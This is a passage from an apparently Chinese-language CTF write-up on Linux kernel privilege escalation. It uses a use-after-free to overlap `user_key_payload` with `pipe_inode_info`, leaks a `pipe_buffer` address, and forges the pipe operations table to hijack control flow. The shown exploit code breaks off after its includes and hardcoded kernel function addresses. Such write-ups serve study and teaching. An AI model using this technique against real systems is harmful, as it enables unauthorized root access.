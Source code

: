 同时内核中会分配一个 `pipe_buffer` 结构体数组，每个 `pipe_buffer` 结构体对应一张用以存储数据的内存页：

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

`pipe_buf_operations` 为一张函数表，当我们对管道进行特定操作时内核便会调用该表上对应的函数，例如当我们关闭了管道的两端时，会触发 `pipe_buffer->pipe_buffer_operations->release` 这一指针，由此我们便能控制内核执行流，从而完成提权。

```c
struct pipe_buf_operations {
	//...

	/*
	 * When the contents of this pipe buffer has been completely
	 * consumed by a reader, ->release() is called.
	 */
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
```

那么这里我们可以利用 UAF 使得 `user_key_payload` 与 `pipe_inode_info` 占据同一个 object， `pipe_inode_info` 刚好会将 `user_key_payload->datalen` 改为 `0xFFFF` 使得我们能够继续读取数据，从而读取 `pipe_inode_info`  以泄露出 `pipe_buffer` 的地址。

而  `pipe_buffer` 是动态分配的，因此我们可以利用题目功能预先分配一个对象作为 `pipe_buffer` 并直接在其上伪造函数表即可。

> 对于笔者来说比较麻烦的倒是找栈迁移的 gadget...好在最后还是成功找到了一些合适的 gadget。

### EXPLOIT

最后的 exp 如下：

```c
#define _GNU_SOURCE
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <asm/ldt.h>
#include <stdio.h>
#include <signal.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <ctype.h>
#include <stdint.h>
#include "kernelpwn.h"

/* kmalloc-192 has only 21 objects on a slub, we don't need to spray to many */
#define KEY_SPRAY_NUM 40

#define PIPE_INODE_INFO_SZ 192
#define PIPE_BUFFER_SZ 1024

#define USER_FREE_PAYLOAD_RCU 0xffffffff813d8210
#define PREPARE_KERNEL_CRED 0xffffffff81096110
#define COMMIT_CREDS 0xffffffff81095c30
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81e00ed0

```